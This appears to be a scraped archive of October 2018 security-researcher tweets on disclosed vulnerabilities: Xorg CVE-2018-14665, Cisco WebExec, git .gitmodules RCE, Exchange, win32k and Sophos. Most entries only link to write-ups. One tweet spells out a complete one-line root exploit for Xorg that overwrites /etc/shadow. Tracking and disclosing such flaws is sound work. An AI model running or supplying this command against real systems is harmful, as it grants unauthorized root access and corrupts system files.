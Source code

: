 # leonov_av
**https://twitter.com/leonov_av/status/1055871303889104897 _at 2018-10-26, 17:18:30_**
<blockquote>
Lol. It works. 😊 Tweetable Exploit by @hackerfantastic for https://t.co/f6XXfwufVX Server Local Privilege Escalation (CVE-2018-14665). It fills /etc/shadow with trash, but leaves one correctly interpreted line setting empty password for root. https://t.co/fkEMPCyxkt
</blockquote>

* http://X.org

<table><tr>
<td><img src="pictures/cf4b426cc9bc86869e2a2a18657dcfdb467b7989d386dc0f89c5e3da6f183734.jpg" alt="cf4b426cc9bc86869e2a2a18657dcfdb467b7989d386dc0f89c5e3da6f183734.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>43</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1055822899330932737 _at 2018-10-26, 14:06:10_**
<blockquote>
New privilege-escalation flaw (CVE-2018-14665) discovered in https://t.co/8eq405azzF Server that affects OpenBSD and most #Linux distributions, including Debian, #Ubuntu, CentOS, Red Hat and Fedora. [Install Patches]

https://t.co/obBqAuZyuW

Researcher releases PoC exploit code. https://t.co/8AK6jgGTYz
</blockquote>

* http://X.Org
* https://thehackernews.com/2018/10/privilege-escalation-linux.html

<table><tr>
<td><img src="pictures/8ccfb3ac248e892249dfbdbe2ee4e382470b4aa6a9de3671826d52da2b620af7.jpg" alt="8ccfb3ac248e892249dfbdbe2ee4e382470b4aa6a9de3671826d52da2b620af7.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>231</code></td>
<td>Favorites: <code>218</code></td>
</tr></table>

---

# hackerfantastic
**https://twitter.com/hackerfantastic/status/1055568290112831490 _at 2018-10-25, 21:14:26_**
<blockquote>
OpenBSD #0day Xorg LPE via CVE-2018-14665 can be triggered from a remote SSH session, does not need to be on a local console. An attacker can literally take over impacted systems with 3 commands or less. exploit https://t.co/3FqgJPeCvO 🙄 https://t.co/8HCBXwBj5M
</blockquote>

* https://hacker.house/releasez/expl0itz/openbsd-0day-cve-2018-14665.sh

<table><tr>
<td><img src="pictures/bd016c2699b518a710a61263116eb9e80ba606454d9f29fb6a06cb803855b8a7.jpg" alt="bd016c2699b518a710a61263116eb9e80ba606454d9f29fb6a06cb803855b8a7.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>24</code></td>
<td>Replies: <code>22</code></td>
<td>Retweets: <code>425</code></td>
<td>Favorites: <code>548</code></td>
</tr></table>

---

# hackerfantastic
**https://twitter.com/hackerfantastic/status/1055555359060807680 _at 2018-10-25, 20:23:03_**
<blockquote>
Here is an exploit using CVE-2018-14665 to get local root for @openbsd - a 0day in 6.4 stable atm https://t.co/3FqgJPwdnm #hacktheplanet https://t.co/GSiKrjFLAg
</blockquote>

* https://hacker.house/releasez/expl0itz/openbsd-0day-cve-2018-14665.sh

<table><tr>
<td><img src="pictures/ae24c10e8008b2e8197e9d6af860d6c8c4589a7525f29b9afc99e7958e5477e7.jpg" alt="ae24c10e8008b2e8197e9d6af860d6c8c4589a7525f29b9afc99e7958e5477e7.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>80</code></td>
<td>Favorites: <code>150</code></td>
</tr></table>

---

# hackerfantastic
**https://twitter.com/hackerfantastic/status/1055517801224396800 _at 2018-10-25, 17:53:49_**
<blockquote>
#CVE-2018-14665 - a LPE exploit via https://t.co/eax3fvaAjE fits in a tweet

cd /etc; Xorg -fp "root::16431:0:99999:7:::"  -logfile shadow  :1;su

Overwrite shadow (or any) file on most Linux, get root privileges. *BSD and any other Xorg desktop also affected.
</blockquote>

* http://X.org

<table><tr>
<td>Quotes: <code>64</code></td>
<td>Replies: <code>25</code></td>
<td>Retweets: <code>941</code></td>
<td>Favorites: <code>1363</code></td>
</tr></table>

---

# x0rz
**https://twitter.com/x0rz/status/1055467476560031749 _at 2018-10-25, 14:33:50_**
<blockquote>
Technical Rundown of WebExec (CVE-2018-15442) - Cisco Webex Meetings Desktop App for Windows RCE with SYSTEM privileges https://t.co/lF4sJBfxs7 #WebExec #vulnerability https://t.co/cqK0FFw5rY
</blockquote>

* https://blog.skullsecurity.org/2018/technical-rundown-of-webexec

<table><tr>
<td><img src="pictures/6821d2299785305e880a8f7fc22ec95fef5722f820245fe32f226d9cc4908929.jpg" alt="6821d2299785305e880a8f7fc22ec95fef5722f820245fe32f226d9cc4908929.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>140</code></td>
<td>Favorites: <code>190</code></td>
</tr></table>

---

# joernchen
**https://twitter.com/joernchen/status/1052054119920427008 _at 2018-10-16, 04:30:23_**
<blockquote>
My exploitation notes for CVE-2018-17456 (.gitmodules RCE) https://t.co/r269O9Ejcu
</blockquote>

* https://gist.github.com/joernchen/38dd6400199a542bc9660ea563dcf2b6

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>62</code></td>
<td>Favorites: <code>103</code></td>
</tr></table>

---

# hkashfi
**https://twitter.com/hkashfi/status/1050164602527473666 _at 2018-10-10, 23:22:07_**
<blockquote>
CVE-2018-8265 and CVE-2018-8493 will keep a lot of people busy this month! Remote TCP/IP stack info disclosure &amp; RCE on Exchange via an email. The Exchange bug, if reliable, is WAY more troublesome.
</blockquote>

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>94</code></td>
<td>Favorites: <code>174</code></td>
</tr></table>

---

# SelsRoger
**https://twitter.com/SelsRoger/status/1050105182422556672 _at 2018-10-10, 19:26:00_**
<blockquote>
Microsoft patches 0day vulnerability in win32k.sys discovered by  Kaspersky Lab in August, targeting victims in the Middle East. Microsoft confirmed the vulnerability and designated it CVE-2018-8453. The exploit was executed by the first stage of a malware installer
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>48</code></td>
</tr></table>

---

# CyberWarship
**https://twitter.com/CyberWarship/status/1047855525667504129 _at 2018-10-04, 14:26:40_**
<blockquote>
CVE-2018-6851 to CVE-2018-6857: Sophos Privilege Escalation Vulnerabilities

- technical writeUp &amp;&amp; PoC Movie

#infosec #vulnerability #exploitDev 
https://t.co/G0OE88kJgb
</blockquote>

* https://labs.nettitude.com/blog/cve-2018-6851-to-cve-2018-6857-sophos-privilege-escalation-vulnerabilities/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>86</code></td>
<td>Favorites: <code>102</code></td>
</tr></table>

---

